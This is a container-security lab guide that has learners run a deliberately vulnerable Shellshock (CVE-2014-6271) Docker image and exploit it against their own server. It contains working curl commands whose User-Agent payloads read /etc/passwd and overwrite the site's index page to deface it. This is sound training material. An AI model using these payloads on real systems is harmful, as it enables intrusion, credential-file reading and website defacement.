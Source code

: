 # Vulnerable Libraries

> Some containers that are often used and available on `DockerHub` are not updated regularly, which results in them having vulnerable packages and libraries. Shellshock(Bashdoor) is one such vulnerability found in older versions of bash that haven't been updated.

### **Lab Image : Containers**

* Step 1: Run an image that is vulnerable to ShellShock on the provisioned server

```commandline
docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
```

* Step 2: Open another browser tab, on the address bar, add `:8080` and press `Enter`.

* Step 3: From the terminal exploit the vulnerability and access `/etc/passwd` of the vulnerable container

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$(serverip):8080/cgi-bin/vulnerable
```

* Step 4: By exploiting ShellShock, deface the website

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://$(serverip):8080/cgi-bin/vulnerable
```

* Step 5: Open another browser tab, on the address bar, add `:8080` and press `Enter`. and check the site.

## Teardown

* Stop all containers

```commandline
clean-docker
```

---

### Reading Material/References:

* https://nvd.nist.gov/vuln/detail/CVE-2014-6271
* https://hub.docker.com/r/vulnerables/cve-2014-6271/
